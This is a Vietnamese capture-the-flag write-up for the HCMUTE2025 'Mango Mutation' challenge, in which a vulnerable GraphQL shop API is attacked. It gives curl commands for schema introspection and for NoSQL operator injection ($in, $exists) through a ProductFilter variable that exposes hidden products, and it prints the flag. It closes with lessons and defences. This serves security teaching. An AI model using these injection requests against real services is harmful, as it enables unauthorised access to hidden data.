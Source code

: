 # Mango Mutation — Writeup (chi tiết từng bước)-HCMUTE2025

> **Mục tiêu:** Trích xuất flag giấu trong dữ liệu “ẩn” của một ứng dụng **GraphQL**.
> **Endpoint:** `http://103.130.211.150:20069/graphql`
> **Flag:** `UTECTF{N0SQL_1nj3ct10n_thr0ugh_GR4phQL_1s_d4ng3r0us}`

---

## 0) Chuẩn bị

* Công cụ: `curl` (tuỳ chọn `jq` để pretty-print JSON).
* Mọi request đều là **POST** với `Content-Type: application/json`.

---

## 1) Kiểm tra endpoint

```bash
curl -s http://103.130.211.150:20069/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __typename }"}'
```

**Kết quả (rút gọn):**

```json
{"data":{"__typename":"Query"}}
```

→ Xác nhận endpoint GraphQL hoạt động.

---

## 2) Introspection: phát hiện root types

```bash
curl -s http://103.130.211.150:20069/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __schema { queryType { name } mutationType { name } subscriptionType { name } } }"}'
```

**Kết quả:**

```json
{"data":{"__schema":{"queryType":{"name":"Query"},"mutationType":{"name":"Mutation"},"subscriptionType":null}}}
```

→ Có **Query** và **Mutation** (không có Subscription).

---

## 3) Liệt kê các field của `Query`

```bash
curl -s http://103.130.211.150:20069/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __type(name:\"Query\"){ name fields{ name type{ name kind ofType{ name kind } } args{ name type{ name kind ofType{ name kind } } } }}}"}'
```

**Kết quả (rút gọn):**

* `me`
* `products(filter: ProductFilter, limit: Int, offset: Int)`
* `product(id: ID!)`
* `searchProducts(query: String!)`
* `featuredProducts`
* `myOrders`
* `order(id: ID!)`

→ Trực giác: flag có thể nằm trong sản phẩm “ẩn” hoặc ghi chú đơn hàng.

---

## 4) Liệt kê các field của `Mutation`

```bash
curl -s http://103.130.211.150:20069/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __type(name:\"Mutation\"){ name fields{ name args{ name type{ name kind ofType{ name kind } } } type{ name kind ofType{ name kind } } }}}"}'
```

**Kết quả (rút gọn):**

* `register(input: RegisterInput!) : AuthPayload!`
* `login(input: LoginInput!) : AuthPayload!`
* `createOrder(input: CreateOrderInput!) : Order!`

---

## 5) Khám phá type quan trọng

### 5.1 `Product`

```bash
curl -s http://103.130.211.150:20069/graphql -H "Content-Type: application/json" \
  -d '{"query":"{ __type(name:\"Product\"){ fields{ name type{ name kind ofType{ name kind } } } }}"}'
```

**Điểm mấu chốt:** có trường **`secretCode: String`** 👀

### 5.2 `ProductFilter`

```bash
curl -s http://103.130.211.150:20069/graphql -H "Content-Type: application/json" \
  -d '{"query":"{ __type(name:\"ProductFilter\"){ inputFields{ name type{ name kind ofType{ name kind } } } }}"}'
```

**Kết quả (rút gọn):**

* `category: JSON`
* `minPrice: Float`
* `maxPrice: Float`
* `inStock: Boolean`
* `featured: Boolean`
* `searchTerm: JSON`
* `tags: JSON`

→ **`tags`** và **`searchTerm`** là **JSON scalar** ⇒ khả năng cao dev map trực tiếp sang query DB (Mongo-like operators: `$in`, `$exists`, `$regex`, …).

---

## 6) Thử liệt kê products “bình thường”

```bash
curl -s http://103.130.211.150:20069/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ products { id name category featured isPublished secretCode } }"}'
```

**Quan sát:** danh sách hiện ra nhưng `secretCode` đều `null`.
→ Flag **không lộ** ở dữ liệu public.

---

## 7) (Bẫy thường gặp) Lỗi truyền JSON inline

Ban đầu thử nhét các toán tử Mongo trực tiếp trong **literal** GraphQL sẽ gặp lỗi kiểu:

```
"Syntax Error: Expected Name, found String \"$regex\"."
```

Và khi dùng biến kiểu `JSON`:

```
"Variable \"$f\" of type \"JSON\" used in position expecting type \"ProductFilter\"."
```

**Cách đúng:** phải truyền **biến GraphQL có type `ProductFilter`**; các toán tử Mongo nằm **bên trong giá trị JSON** của các field như `tags`, `searchTerm`.

---

## 8) Khai thác qua `tags` để lộ item ẩn

### 8.1 Lọc theo `tags` “ẩn” (dùng `$in`)

```bash
curl -s http://103.130.211.150:20069/graphql \
  -H 'Content-Type: application/json' \
  -d '{"query":"query($f: ProductFilter){ products(filter:$f, limit:200){ id name tags secretCode } }",
       "variables":{"f":{"tags":{"$in":["hidden","internal","secret","admin"]}}}}'
```

### 8.2 Hoặc lấy toàn bộ item có `tags` (dùng `$exists`)

```bash
curl -s http://103.130.211.150:20069/graphql \
  -H 'Content-Type: application/json' \
  -d '{"query":"query($f: ProductFilter){ products(filter:$f, limit:200){ id name tags secretCode } }",
       "variables":{"f":{"tags":{"$exists":true}}}}'
```

**Kết quả:** xuất hiện **sản phẩm ẩn** và trường **`secretCode`** trả về **flag**.

> Ví dụ (minh hoạ):

```json
{
  "data": {
    "products": [
      {
        "id": "....",
        "name": "Internal Item",
        "tags": ["internal","hidden"],
        "secretCode": "UTECTF{N0SQL_1nj3ct10n_thr0ugh_GR4phQL_1s_d4ng3r0us}"
      }
    ]
  }
}
```

---

## 9) Flag

```
UTECTF{N0SQL_1nj3ct10n_thr0ugh_GR4phQL_1s_d4ng3r0us}
```

---

## 10) Phân tích & Bài học

* **Introspection bật** → attacker dễ nắm toàn bộ schema (cửa mở cho recon).
* **Over-fetching field**: `secretCode` tồn tại trong schema dù UI không dùng → có thể query trực tiếp.
* **ProductFilter với JSON scalar**: backend **map trực tiếp** sang truy vấn DB (Mongo-like), cho phép **operator injection** (`$in`, `$exists`, …) để lôi **item ẩn**.
* **Pitfall**: GraphQL **không cho** inline literal có key bắt đầu bằng `$` → phải truyền qua **variables** và đúng **type `ProductFilter`** (không phải `JSON`).

### Phòng thủ khuyến nghị

* **Tắt/giới hạn introspection** ở production (hoặc chỉ bật cho admin).
* **Whitelisting/sanitization** cho các trường JSON: chặn keys như `$in`, `$ne`, `$exists`, `$regex`.
* **Field-level authorization**: yêu cầu role phù hợp khi đọc field nhạy cảm như `secretCode`.
* **Schema hardening**: loại bỏ hoàn toàn các field nội bộ khỏi schema public thay vì trả `null`.

---

## 11) TL;DR

* Recon → Introspection → thấy `Product.secretCode` & `ProductFilter.tags(JSON)`.
* Khai thác → dùng biến `ProductFilter` + `$in/$exists` với `tags` → lộ **sản phẩm ẩn**.
* Đọc `secretCode` → **Flag**.

Hết. 🚩
